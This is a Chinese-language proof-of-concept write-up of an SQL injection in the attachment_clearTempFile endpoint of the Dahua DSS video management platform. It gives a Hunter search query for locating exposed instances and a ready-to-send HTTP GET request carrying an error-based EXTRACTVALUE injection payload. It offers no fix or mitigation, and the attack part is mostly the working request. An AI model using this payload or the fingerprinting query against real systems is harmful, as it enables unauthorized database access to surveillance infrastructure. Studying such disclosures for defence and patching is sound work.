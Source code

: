 # 大华 DSS 视频管理系统attachment_clearTempFile存在SQL注入漏洞

# 一、漏洞简介
<font style="color:rgb(0, 0, 0);">大华DSS城市安防监控平台是一个在通用安防视频监控系统基础上设计开发的系统。大华DSS城市安防监控平台attachment_clearTempFile文件存在SQL注入漏洞，攻击者可以通过此漏洞获取数据库权限。</font>

# 二、影响版本
+ 大华 DSS 视频管理系统

# 三、资产测绘
+ hunter：`app.name=="Dahua 大华 DSS 视频管理系统"`

![1691867182224-1219c86f-cf8f-45b6-a1cf-8161c98567cc.png](./img/8ALRMRupTeWfQbmC/1691867182224-1219c86f-cf8f-45b6-a1cf-8161c98567cc-419113.png)

+ 登录页面

![1691867201317-4728fc1e-bdf3-485b-a82a-67995f73e590.png](./img/8ALRMRupTeWfQbmC/1691867201317-4728fc1e-bdf3-485b-a82a-67995f73e590-437522.png)

# 四、漏洞复现
```java
GET /portal/attachment_clearTempFile.action?bean.RecId=1%27)%20AND%20EXTRACTVALUE(8841,CONCAT(0x7e,md5(1),0x7e))%20AND%20(%27mYhO%27=%27mYhO&bean.TabName=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```

![1714291586245-19c2c45a-f9d8-4c77-af35-4f000ae2956c.png](./img/8ALRMRupTeWfQbmC/1714291586245-19c2c45a-f9d8-4c77-af35-4f000ae2956c-415198.png)



> 更新: 2024-04-28 16:06:59  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bz9pqrmrb068vt05>